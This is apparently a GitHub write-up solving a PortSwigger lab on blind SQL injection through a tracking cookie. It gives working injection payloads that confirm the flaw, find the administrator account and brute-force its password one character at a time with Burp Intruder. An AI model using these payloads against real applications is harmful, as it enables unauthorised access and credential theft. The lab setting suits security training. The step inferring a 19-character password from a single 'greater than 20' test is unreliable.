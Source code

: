 ## Blind SQL injection with conditional responses

**Title:** Blind SQL injection with conditional responses. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the `administrator` user.

## Preface

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses.

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`
When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a `Welcome back` message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
`…xyz' AND '1'='1` & `…xyz' AND '1'='2`

The first of these values causes the query to return results, because the injected AND `'1'='1` condition is true. As a result, the `Welcome back` message is displayed.
The second value causes the query to not return any results, because the injected condition is false. The `Welcome back` message is not displayed. This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
This returns the `Welcome back` message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the `Welcome back` message, thereby confirming that the first character of the password is `s`:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the `Administrator` user

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the `Welcome back` message appears in the response. Now change it to: `TrackingId=xyz' AND '1'='2`. Verify that the `Welcome back` message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

![poc_conditional_responses_confirm_02.png](../images/conditional_response_confirm_02.png)

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`. Verify that the condition is true, confirming that there is a table called `users`.

![poc_confirming_users_table.png](../images/confirming_users_table.png)

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`. Verify that the condition is true, confirming that there is a user called administrator.

![poc_administrator_table.png](../images/administrator_table.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`. This condition should be false, confirming that the password has 19 characters in length.

![poc_password_length.png](../images/password_length.png)

Now its time to brute force all of these 19 charecters. And for this we will use brup suite's Intruder module. Here, we use cluster bomb option with two payload position. `TrackingId=xyz' AND (SELECT SUBSTRING(password,$payload01$,1) FROM users WHERE username='administrator')='$payload02$`

![poc_clusterbomb01.png](../images/clusterbomb01.png)

For first payload position we have to configure:

![poc_clusterbomb02.png](../images/clusterbomb02.png)

For second payload position we have to configure:

![poc_clusterbomb03.png](../images/clusterbomb03.png)

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression `Welcome back`. To do this, go to the Settings tab, and the `Grep - Match` section. Clear any existing entries in the list, and then add the value `Welcome back`.

![poc_clusterbomb04.png](../images/clusterbomb04.png)

And the final result:

![poc_conditional_responses.png](../images/poc_conditional_responses.png)

**Summary:**

1. Confirming the vulnerability with `TrackingId=xyz' AND '1'='1` & `TrackingId=xyz' AND '1'='2`

2. Verifying `users` table with `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

3. Confirming `administrator` user with `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

4. Determining password length with `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`

5. Brute forcing characters with `TrackingId=xyz' AND (SELECT SUBSTRING(password,$payload01$,1) FROM users WHERE username='administrator')='$payload02$`
